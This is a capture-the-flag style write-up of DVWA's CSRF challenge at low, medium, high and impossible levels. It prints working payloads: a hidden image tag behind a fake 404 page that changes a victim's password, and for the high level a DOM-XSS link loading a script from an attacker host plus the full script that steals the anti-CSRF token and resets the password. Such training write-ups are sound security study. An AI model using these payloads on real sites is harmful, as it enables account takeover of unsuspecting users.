 # DVWA - CSRF Solution

## Low level

### Solution

We can write a html page to let the user to browse and the web will show 404, but we can change the password by the img url.

```htmlembedded=
<img src="http://192.168.1.66/DVWA-master/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#" border="0" style="display:none;"/>

<h1>404 ERROR !<h1>

<h2>Files Not Found.<h2>
```

### Error on Chrome

The Chrome can't access the cookie through different domain. Because the feature of Chrome <https://www.chromestatus.com/feature/5629709824032768>, we can't access the cookie of the different domain.

![](https://i.imgur.com/m2yyvC2.png)

So, we need to establish the web server in the same domain or use the other bowser.

![](https://i.imgur.com/MvcDAky.png)

## Medium level

In this case it will check the HOST_REFERENCE and HOST_HOST, so we can not use the file to be clicked. We need to let the attacked ise the web server to access the html file.
So I establish the web server on another VM. And we need to rename the HTML file be the host IP. Then we can change the attacked's password.

![](https://i.imgur.com/DfNqBkP.png)

## High level of CSRF

In this case, the web site add the Auti-CRSF token, so we need to get the user-token to change his/her password.
Use the XSS weakness to get the user token and send the request to change the password.

Use the `http://192.168.1.66/DVWA-master/vulnerabilities/xss_d/?default=English#<script src="http://192.168.1.68/xss.js"></script>` to le attacked to click.

XSS.js (put it into the web server)

```javascript
// alert(document.cookie);

var theUrl = 'http://192.168.1.68/DVWA-master/vulnerabilities/csrf/';

if(window.XMLHttpRequest) {
    xmlhttp = new XMLHttpRequest();
}else{
    xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}

var count = 0;
xmlhttp.withCredentials = true;

xmlhttp.onreadystatechange = function(){
    if(xmlhttp.readyState == 4 && xmlhttp.status == 200)
    {
        var text = xmlhttp.responseText;
        var regex = /user_token\' value\=\'(.*?)\' \/\>/;
        var match = text.match(regex);
        // console.log(match);
        // alert(match[1]);
        var token = match[1];
        var new_url = 'http://192.168.1.66/DVWA-master/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change&user_token=' + token + '#';
        if(count == 0){
            count++;
            xmlhttp.open("GET", new_url, false);
            xmlhttp.send();
        }
    }
};

xmlhttp.open("GET", theUrl, false);
xmlhttp.send();
```

## Impossible level of CRSF

In this case, web site add the PDO to protect the sql injection. And it request the ttacked's password we can't to attack the password.
